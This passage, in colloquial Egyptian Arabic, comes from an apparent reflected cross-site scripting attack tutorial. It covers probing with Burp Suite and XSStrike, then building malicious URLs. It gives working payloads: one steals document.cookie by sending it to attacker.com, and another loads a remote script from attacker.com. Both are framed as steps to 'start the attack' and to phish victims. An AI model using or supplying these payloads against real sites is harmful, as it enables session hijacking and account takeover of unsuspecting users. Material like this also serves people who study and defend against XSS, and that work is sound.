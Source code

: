 ##### **استخدام أدوات:**
- **Burp Suite**:
  1. اضبط Burp Suite على الـ Proxy.
  2. ادخل كلمة زي `test` في الـ URL أو حقل.
  3. ابعت الطلب للـ **Repeater**.
  4. استبدل `test` بـ:
     ```html
     <script>alert('XSS')</script>
     ```
  5. اضغط "Send"، وشوف لو الكود اتعرض في الـ Response.

- **XSStrike**:
  1. نزّل XSStrike:
     ```
     git clone https://github.com/s0md3v/XSStrike.git
     ```
  2. شغّل الأداة:
     ```
     python3 xsstrike.py -u "example.com/search?query=test"
     ```

---

**خلاصة بالعامية:**
الخطوة دي زي ما تكون بتفحص الباب لو ضعيف ولا لأ. لو لقيت الموقع بيعكس الكود زي ما هو، يبقى جاهز تصمم الرابط الخبيث وتبدأ الهجوم.

---

#### **الخطوة 2: تصميم الرابط الخبيث (Malicious URL)**
لما تتأكد إن فيه ثغرة، تبدأ تصمم رابط فيه **Payload** يناسب هدفك. هنا أمثلة على Payloads وإزاي تحطها في الـ URL:

##### **1. Payload بسيط للاختبار:**
```html
<script>alert(document.cookie)</script>
```
- الرابط:
  ```
  example.com/search?query=<script>alert(document.cookie)</script>
  ```
- ده بيظهر الكوكيز، ولو اشتغل، يبقى جاهز للـ Phishing.

##### **2. Payload لسرقة الكوكيز:**
```html
<script>new Image().src='attacker.com/log?cookie='+document.cookie;</script>
```
- الرابط:
  ```
  example.com/search?query=<script>new Image().src='attacker.com/log?cookie='+document.cookie;</script>
  ```
- ده بيبعت الكوكيز لسيرفرك.

##### **3. Payload لتحميل سكربت خارجي:**
```html
<script src="attacker.com/malicious.js"></script>
```
- الرابط:
  ```
  example.com/search?query=<script src="attacker.com/malicious.js"></script>
  ```
- ده بيحمل سكربت من سيرفرك يقدر يعمل حاجات معقدة.
